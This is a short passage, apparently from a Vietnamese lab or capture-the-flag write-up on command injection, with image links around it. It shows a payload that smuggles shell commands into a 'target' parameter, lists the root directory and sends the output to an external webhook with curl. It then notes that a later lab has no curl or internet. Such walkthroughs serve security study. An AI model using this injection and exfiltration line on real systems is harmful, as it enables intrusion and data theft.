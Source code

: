     ![alt text](IMG/4/image-10.png)

    > có thể dùng `command=backup&target=tungdeptrai.zip; ls / > /tmp/tungdvan.txt; curl --data-binary @/tmp/tungdvan.txt https://webhook.site/fb779aa2-4ae3-4567-9de7-e9e1911578b6 %23` để in ra đẹp hơn.


    ![alt text](IMG/4.1/image.png)

    LAB5 sẽ không thể sử dụng lệnh curl và không có internet, vậy ta làm như thế nào, hí hí.
